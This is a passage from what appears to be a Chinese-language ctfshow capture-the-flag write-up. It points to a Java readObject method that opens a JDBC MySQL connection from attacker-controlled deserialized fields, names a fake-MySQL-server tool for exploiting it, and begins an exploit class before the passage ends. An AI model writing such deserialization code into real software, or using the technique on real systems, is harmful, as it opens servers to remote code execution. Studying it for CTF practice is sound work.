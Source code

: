```java  
    }  
   
    public void setDatabase(String database) {  
        this.database = database;  
    }  
   
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, SQLException {  
        Class.forName("com.mysql.jdbc.Driver");  
        ObjectInputStream.GetField gf = in.readFields();  
        String host = (String) gf.get("host", "127.0.0.1");  
        int port = (int) gf.get("port",3306);  
        User user = (User) gf.get("user",new User("root","root"));  
        String database = (String) gf.get("database", "ctfshow");  
        String schema = (String) gf.get("schema", "jdbc:mysql");  
        DriverManager.getConnection( schema+"://"+host+":"+port+"/?"+database+"&user="+user.getUsername());  
    }  
   
    @Override  
    public boolean equals(Object o) {  
        if (this == o) return true;  
        if (!(o instanceof Connection)) return false;  
        Connection that = (Connection) o;  
        return Objects.equals(host, that.host) && Objects.equals(port, that.port) && Objects.equals(user, that.user) && Objects.equals(database, that.database);  
    }  
   
    @Override  
    public int hashCode() {  
        return Objects.hash(host, port, user, database);  
    }  
}```  
漏洞出现在这里  
```java  
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, SQLException {  
        Class.forName("com.mysql.jdbc.Driver");  
        ObjectInputStream.GetField gf = in.readFields();  
        String host = (String) gf.get("host", "127.0.0.1");  
        int port = (int) gf.get("port",3306);  
        User user = (User) gf.get("user",new User("root","root"));  
        String database = (String) gf.get("database", "ctfshow");  
        String schema = (String) gf.get("schema", "jdbc:mysql");  
        DriverManager.getConnection( schema+"://"+host+":"+port+"/?"+database+"&user="+user.getUsername());  
    }  
```  
直接进行 JDBC 反序列化  
利用工具 https://github.com/fnmsd/MySQL_Fake_Server  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.Connection;    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
    
public class Vuln{    
    public static void main(String[] args) throws Exception{    
        Connection connection = new Connection();    
```